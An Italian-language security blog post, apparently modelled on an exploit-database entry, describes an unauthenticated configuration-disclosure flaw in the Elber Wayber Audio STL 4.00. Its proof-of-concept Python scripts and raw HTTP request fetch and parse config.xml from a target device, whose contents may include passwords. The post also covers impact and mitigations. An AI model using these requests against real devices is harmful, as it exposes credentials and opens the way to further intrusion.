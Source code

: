```yaml
---
layout: post
title: '[webapps] Elber Wayber Analog/Digital Audio STL 4.00 - Device Config Disclosure' 
date: 2024-08-24
categories: [security, ransomware]
---
```


# [webapps] Elber Wayber Analog/Digital Audio STL 4.00 - Device Config Disclosure

## Introduzione
La vulnerabilità in esame riguarda Elber Wayber Analog/Digital Audio STL 4.00, un dispositivo di trasmissione audio. La vulnerabilità permette a un attaccante di ottenere la configurazione del dispositivo, che può includere informazioni sensibili come password e dettagli di configurazione di rete. Questa è una vulnerabilità critica che può mettere a rischio l'integrità e la riservatezza dei dati dell'utente.

## Dettagli della vulnerabilità
La vulnerabilità si manifesta quando un attaccante invia una richiesta HTTP specifica al dispositivo. Il dispositivo risponde con un file di configurazione XML che contiene informazioni sensibili. Le versioni interessate sono le 4.00 e precedenti.

## Esempio di Payload Semplice
Ecco un esempio di richiesta HTTP che può sfruttare questa vulnerabilità:

```python
import requests
url = "http://target-ip/config.xml"
response = requests.get(url)
print(response.text)
```

## Esempio di Payload Avanzato
Un attaccante potrebbe utilizzare il seguente codice per scaricare e analizzare il file di configurazione:

```python
import requests
import xml.etree.ElementTree as ET

url = "http://target-ip/config.xml"
response = requests.get(url)

with open('config.xml', 'w') as file:
    file.write(response.text)

tree = ET.parse('config.xml')
root = tree.getroot()

for elem in root:
    print(f'{elem.tag}: {elem.text}')
```

## Procedura per riprodurre la vulnerabilità
- Identificare un dispositivo vulnerabile.
- Inviare una richiesta GET all'URL http://[IP-del-dispositivo]/config.xml
- Analizzare la risposta per estrarre informazioni sensibili.

## Richiesta HTTP

```http
GET /config.xml HTTP/1.1
Host: target-ip
```

## Impatto della vulnerabilità
Un attaccante può utilizzare questa vulnerabilità per accedere a informazioni sensibili sul dispositivo, come i dettagli di configurazione di rete e le password. Questo può portare a ulteriori attacchi, come l'accesso non autorizzato al dispositivo o alla rete di cui fa parte.

## Patch e Mitigazioni
Al momento della scrittura, non è stata rilasciata alcuna patch da Elber. Gli amministratori di sistema sono consigliati a limitare l'accesso alla rete del dispositivo e monitorare attentamente qualsiasi traffico sospetto.

## Conclusione
Questa vulnerabilità nel dispositivo Elber Wayber Analog/Digital Audio STL 4.00 è un chiaro promemoria dell'importanza di valutare la sicurezza dei dispositivi IoT. Le informazioni sensibili dovrebbero essere sempre protette e non dovrebbero essere facilmente accessibili attraverso la rete.

## Considerazioni
Questa vulnerabilità sottolinea l'importanza di seguire le best practice in termini di sicurezza durante lo sviluppo di dispositivi IoT. Nonostante l'importanza crescente della sicurezza, troppo spesso viene trascurata, esponendo gli utenti a rischi significativi. È fondamentale che i produttori di dispositivi IoT si impegnino a garantire la sicurezza dei loro prodotti.

